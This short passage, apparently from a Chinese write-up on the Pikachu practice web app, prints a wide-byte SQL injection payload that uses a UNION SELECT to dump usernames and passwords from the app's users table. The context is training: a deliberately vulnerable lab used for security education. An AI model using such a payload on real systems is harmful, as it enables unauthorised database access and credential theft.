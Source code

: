 

SQL注入详情可以看sqli-labs系类，这里不进行详细叙述，直接爆账号和密码了。

```plain
vince%df'  union select version(),group_concat(concat_ws(0x7e,username,password)) from pikachu.users#
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882681954-0e246785-fd1e-4379-92f6-9ed2e9e66bf5.png)